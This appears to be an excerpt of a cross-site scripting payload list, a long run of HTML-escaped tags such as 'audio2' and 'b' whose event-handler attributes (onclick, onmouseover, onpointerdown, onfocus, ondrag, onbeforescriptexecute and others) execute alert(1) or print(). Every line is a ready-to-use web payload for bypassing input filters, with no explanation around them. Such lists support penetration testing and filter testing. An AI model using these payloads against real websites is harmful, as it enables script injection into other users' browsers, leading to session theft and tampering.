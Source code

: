&lt;audio2 onbeforescriptexecute=alert(1)&gt;&lt;script&gt;1&lt;/script&gt;
&lt;audio2 onclick="alert(1)"&gt;test&lt;/audio2&gt;
&lt;audio2 oncontextmenu="alert(1)"&gt;test&lt;/audio2&gt;
&lt;audio2 oncopy=alert(1) value="XSS" autofocus tabindex=1&gt;test
&lt;audio2 oncut=alert(1) value="XSS" autofocus tabindex=1&gt;test
&lt;audio2 ondblclick="alert(1)" autofocus tabindex=1&gt;test&lt;/audio2&gt;
&lt;audio2 onkeydown="alert(1)" contenteditable&gt;test&lt;/audio2&gt;
&lt;audio2 onkeypress="alert(1)" contenteditable&gt;test&lt;/audio2&gt;
&lt;audio2 onkeyup="alert(1)" contenteditable&gt;test&lt;/audio2&gt;
&lt;audio2 onmousedown="alert(1)"&gt;test&lt;/audio2&gt;
&lt;audio2 onmouseenter="alert(1)"&gt;test&lt;/audio2&gt;
&lt;audio2 onmouseleave="alert(1)"&gt;test&lt;/audio2&gt;
&lt;audio2 onmousemove="alert(1)"&gt;test&lt;/audio2&gt;
&lt;audio2 onmouseout="alert(1)"&gt;test&lt;/audio2&gt;
&lt;audio2 onmouseover="alert(1)"&gt;test&lt;/audio2&gt;
&lt;audio2 onmouseup="alert(1)"&gt;test&lt;/audio2&gt;
&lt;audio2 onmousewheel=alert(1)&gt;requires scrolling
&lt;audio2 onpointerdown=alert(1)&gt;XSS&lt;/audio2&gt;
&lt;audio2 onpointerenter=alert(1)&gt;XSS&lt;/audio2&gt;
&lt;audio2 onpointerleave=alert(1)&gt;XSS&lt;/audio2&gt;
&lt;audio2 onpointermove=alert(1)&gt;XSS&lt;/audio2&gt;
&lt;audio2 onpointerout=alert(1)&gt;XSS&lt;/audio2&gt;
&lt;audio2 onpointerover=alert(1)&gt;XSS&lt;/audio2&gt;
&lt;audio2 onpointerrawupdate=alert(1)&gt;XSS&lt;/audio2&gt;
&lt;audio2 onpointerup=alert(1)&gt;XSS&lt;/audio2&gt;
&lt;b draggable="true" ondrag="alert(1)"&gt;test&lt;/b&gt;
&lt;b draggable="true" ondragend="alert(1)"&gt;test&lt;/b&gt;
&lt;b draggable="true" ondragenter="alert(1)"&gt;test&lt;/b&gt;
&lt;b draggable="true" ondragleave="alert(1)"&gt;test&lt;/b&gt;
&lt;b draggable="true" ondragstart="alert(1)"&gt;test&lt;/b&gt;
&lt;b id=x tabindex=1 onactivate=alert(1)&gt;&lt;/b&gt;
&lt;b id=x tabindex=1 onbeforeactivate=alert(1)&gt;&lt;/b&gt;
&lt;b id=x tabindex=1 onbeforedeactivate=print()&gt;&lt;/b&gt;&lt;input autofocus&gt;
&lt;b id=x tabindex=1 ondeactivate=print()&gt;&lt;/b&gt;&lt;input id=y autofocus&gt;
&lt;b id=x tabindex=1 onfocus=alert(1)&gt;&lt;/b&gt;
&lt;b id=x tabindex=1 onfocusin=alert(1)&gt;&lt;/b&gt;
&lt;b onafterscriptexecute=alert(1)&gt;&lt;script&gt;1&lt;/script&gt;
&lt;b onbeforecopy="alert(1)" contenteditable&gt;test&lt;/b&gt;
&lt;b onbeforecut="alert(1)" contenteditable&gt;test&lt;/b&gt;
&lt;b onbeforepaste="alert(1)" contenteditable&gt;test&lt;/b&gt;
&lt;b onbeforescriptexecute=alert(1)&gt;&lt;script&gt;1&lt;/script&gt;
&lt;b onblur=alert(1) tabindex=1 id=x&gt;&lt;/b&gt;&lt;input autofocus&gt;
&lt;b onclick="alert(1)"&gt;test&lt;/b&gt;
&lt;b oncontextmenu="alert(1)"&gt;test&lt;/b&gt;
&lt;b oncopy=alert(1) value="XSS" autofocus tabindex=1&gt;test
&lt;b oncut=alert(1) value="XSS" autofocus tabindex=1&gt;test
&lt;b ondblclick="alert(1)" autofocus tabindex=1&gt;test&lt;/b&gt;
&lt;b onfocusout=alert(1) tabindex=1 id=x&gt;&lt;/b&gt;&lt;input autofocus&gt;
&lt;b onkeydown="alert(1)" contenteditable&gt;test&lt;/b&gt;
&lt;b onkeypress="alert(1)" contenteditable&gt;test&lt;/b&gt;
&lt;b onkeyup="alert(1)" contenteditable&gt;test&lt;/b&gt;
&lt;b onmousedown="alert(1)"&gt;test&lt;/b&gt;
&lt;b onmouseenter="alert(1)"&gt;test&lt;/b&gt;
&lt;b onmouseleave="alert(1)"&gt;test&lt;/b&gt;
&lt;b onmousemove="alert(1)"&gt;test&lt;/b&gt;
&lt;b onmouseout="alert(1)"&gt;test&lt;/b&gt;
&lt;b onmouseover="alert(1)"&gt;test&lt;/b&gt;
&lt;b onmouseup="alert(1)"&gt;test&lt;/b&gt;
&lt;b onmousewheel=alert(1)&gt;requires scrolling
&lt;b onpaste="alert(1)" contenteditable&gt;test&lt;/b&gt;
&lt;b onpointerdown=alert(1)&gt;XSS&lt;/b&gt;
&lt;b onpointerenter=alert(1)&gt;XSS&lt;/b&gt;
&lt;b onpointerleave=alert(1)&gt;XSS&lt;/b&gt;
&lt;b onpointermove=alert(1)&gt;XSS&lt;/b&gt;